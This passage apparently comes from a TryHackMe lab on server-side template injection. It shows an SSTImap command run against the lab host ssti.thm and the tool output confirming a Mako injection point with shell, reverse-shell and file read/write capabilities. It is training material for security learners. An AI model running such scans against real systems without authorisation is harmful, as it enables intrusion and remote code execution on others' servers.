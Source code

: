 You can use SSTImap by providing it with the target URL and any necessary options. Hereâ€™s a simple usage example:

```bash
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

This command attempts to detect the SSTI vulnerability using tailored payloads.

```shell-session
user@tryhackme $ python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page=' 

 â•”â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•â•— â–€â–ˆâ–€
 â•‘ â•”â•â•â•â•â•£ â•”â•â•â•â•â•©â•â•â•— â•”â•â•â•â•â•—â–€â•”â•
 â•‘ â•šâ•â•â•â•â•£ â•šâ•â•â•â•â•— â•‘ â•‘ â•‘{â•‘ _ __ ___ __ _ _ __
 â•šâ•â•â•â•â•— â• â•â•â•â•â•— â•‘ â•‘ â•‘ â•‘*â•‘ | '_ ` _ \ / _` | '_ \
 â•”â•â•â•â•â• â• â•â•â•â•â• â•‘ â•‘ â•‘ â•‘}â•‘ | | | | | | (_| | |_) |
 â•šâ•â•â•â•â•â•â•©â•â•â•â•â•â•â• â•šâ•â• â•šâ•¦â• |_| |_| |_|\__,_| .__/
 â”‚ | |
 |_|
[*] Version: 1.2.1
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4

[*] Scanning url: http://ssti.thm:8002/mako/
[*] Testing if Body parameter 'page' is injectable
[*] Mako plugin is testing rendering with tag '*'
[+] Mako plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

 Body parameter: page
 Engine: Mako
 Injection: *
 Context: text
 OS: posix-linux
 Technique: render
 Capabilities:

 Shell command execution: ok
 Bind and reverse shell: ok
 File write: ok
 File read: ok
 Code evaluation: ok, python code
```


# Extra-Mile Challenge
---
